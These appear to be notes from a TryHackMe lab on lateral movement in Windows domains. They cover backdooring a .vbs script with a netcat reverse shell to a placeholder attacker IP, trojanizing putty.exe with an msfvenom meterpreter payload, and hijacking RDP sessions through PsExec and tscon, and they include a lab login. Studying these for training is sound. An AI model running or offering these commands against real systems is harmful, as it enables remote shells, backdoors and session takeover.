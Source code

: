 ## Abusing User Behaviour

### Abusing Writable Shares

- Crack Map Exec Modules
- ETC

### Backdooring .vbs Scripts

```vbscript
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

### Backdooring .exe Files

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

### RDP hijacking

> Remember to choose sessions that are inactive in real 

```bash
PsExec64.exe -accepteula -s cmd.exe
```

```bash
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```

```bash
tscon 3 /dest:rdp-tcp#6
```

### Let's Get to Work!

```bash
xfreerdp /u:t2_kelly.blake /p:8LXuPeNHZFFG /v:thmjmp2.za.tryhackme.com /size:1800x900 /cert:ignore
```

```bash
PsExec64.exe -accepteula -s cmd
```

```bash
C:\Windows\system32>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 t1_toby.beck                              2  Disc            7  7/3/2023 2:11 PM
 t1_toby.beck1                             3  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck2                             4  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck3                             5  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck4                             6  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck5                             7  Disc            6  7/3/2023 2:12 PM
 t2_kelly.blake        rdp-tcp#119         8  Active          .  7/3/2023 5:13 PM
```
